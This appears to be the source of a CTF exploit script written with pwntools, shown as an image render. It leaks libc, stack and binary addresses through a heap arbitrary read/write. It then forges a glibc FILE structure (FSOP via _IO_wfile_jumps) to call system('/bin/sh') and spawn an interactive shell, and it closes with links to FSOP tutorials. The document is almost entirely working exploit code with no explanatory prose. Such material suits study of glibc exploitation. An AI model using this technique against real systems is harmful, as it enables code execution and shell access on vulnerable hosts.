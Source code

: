 ```python
              ######### leaking stack and elf address ##########
libc_argv = libc.address + 0x2046e0
stack_offset = 0x7ffe1ebbf2a8- 0x7ffe1ebbf258-8
print("libc_argv = ",hex(libc_argv))
create(14,0x28)
write_into(14,pack(libc_argv))
create(0,0xf8)
view(14)
r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
stack_leak  = obfuscate(temp,libc_argv)
log.critical(f'stack_leak = {hex(stack_leak)}')

write_into(14,pack(stack_leak-stack_offset))
create(0,0xf8)
view(14)

r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
elf.address  = obfuscate(temp,stack_leak) + 0x60ea2433c000 - 0x60ea2433d160
log.critical(f'elf.address = {hex(elf.address)}')

write_into(14,pack(elf.sym.chunks+0x10))
create(2,0xf8)
write_into(2,pack(elf.sym.chunks+0x10)+pack(libc.sym['_IO_2_1_stdout_'])+pack(0)*(16-4)+p16(0x1f0)*16)
#######################################################################################3#3
                           ######### Performing FSOP ###########
stdout_lock = libc.sym['_IO_2_1_stdout_'] + 0x250	# _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x00000000001724f0 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end = libc.sym.system
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')	# will be at rdi+0x10
fake._lock = stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout_lock+0x18
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
payload = bytes(fake)
#############################################################################################
write_into(3,payload[:0x1e0])

r.interactive()
```

`For FSOP` → https://pwn.college/software-exploitation/file-struct-exploits/, https://blog.kylebot.net/2022/10/22/angry-FSROP/, https://chovid99.github.io/posts/stack-the-flags-ctf-2022/.

---